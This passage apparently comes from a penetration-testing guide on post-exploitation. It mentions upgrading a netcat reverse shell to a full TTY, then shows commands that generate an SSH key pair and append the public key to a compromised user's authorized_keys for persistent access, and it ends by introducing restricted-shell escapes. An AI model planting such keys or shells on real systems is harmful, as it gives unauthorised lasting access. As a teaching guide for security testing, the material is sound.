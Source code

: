 The end result is a fully interactive TTY with all the features we'd expect (tab-complete, history, job control, etc) all over a netcat connection

### ssh-key

If we have some user shell or access, probably it would be a good idea to generate a new ssh private-public key pair using ssh-keygen

```none
ssh-keygen 
Generating public/private rsa key pair.
Enter file in which to save the key (/home/bitvijays/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/bitvijays/.ssh/id_rsa.
Your public key has been saved in /home/bitvijays/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:JbdAhAIPl8qm/kCANJcpggeVoZqWnFRvVbxu2u9zc5U bitvijays@Kali-Home
The key's randomart image is:
+---[RSA 2048]----+
|o==*+. +=.       |
|=o**+ o. .       |
|=+...+  o +      |
|=.* .    * .     |
|oO      S .     .|
|+        o     E.|
|..      +       .|
| ..    . . . o . |
|  ..      ooo o  |
+----[SHA256]-----+
```

Copy/ Append the public part to /home/user/.ssh/authorized_keys

```none
cat /home/bitvijays/.ssh/id_rsa.pub 

echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+tbCpnhU5qQm6typWI52FCin6NDYP0hmQFfag2kDwMDIS0j1ke/kuxfqfQKlbva9eo6IUaCrjIuAqbsZTsVjyFfjzo/hDKycR1M5/115Jx4q4v48a7BNnuUqi +qzUFjldFzfuTp6XM1n+Y1B6tQJJc9WruOFUNK2EX6pmOIkJ8QPTvMXYaxwol84MRb89V9vHCbfDrbWFhoA6hzeQVtI01ThMpQQqGv5LS+rI0GVlZnT8cUye0uiGZW7ek9DdcTEDtMUv1Y99zivk4FJmQWLzxplP5dUJ1NH5rm6YBH8CoQHLextWc36Ih18xsyzW8qK4Bfl4sOtESHT5/3PlkQHN bitvijays@Kali-Home" >> /home/user/.ssh/authorized_keys
```

Now, ssh to the box using that user.

```none
ssh user@hostname -i id_rsa
```

## Restricted Shell

Sometimes, after getting a shell, we figure out that we are in restricted shell. The below has been taken from [Escaping Restricted Linux Shells](https://pen-testing.sans.org/blog/pen-testing/2012/06/06/escaping-restricted-linux-shells), [Escape from SHELLcatraz](https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells)
